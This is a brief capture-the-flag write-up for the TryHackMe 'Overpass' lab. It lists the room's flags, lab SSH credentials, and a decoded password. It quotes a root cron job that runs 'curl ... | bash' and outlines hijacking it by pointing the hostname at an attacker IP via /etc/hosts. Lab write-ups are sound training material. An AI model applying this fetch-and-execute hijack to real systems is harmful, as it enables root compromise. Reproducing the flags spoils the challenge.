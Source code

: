# TryHackMe Overpass

# Saikat Karmakar | Jan 12:2021

1. Hack the machine and get the flag in user.txt
```
thm{65c1aaf000506e56996822c6281e6bf7}
```
2. Escalate your privileges and get the flag in root.txt
```
thm{7f336f8c359dbac18d54fdd64ea753bb}
```


***Notes***
ssh creds
```
id = james
pass = james13
```

decrepted ROT47 data from the ~/.overpass file
```
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

intersting linpeas info (cronjob)
```
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

```
add our ip to the /etc/hosts file && set up a script with suid bits as the same path as the cronjob is accessing
```
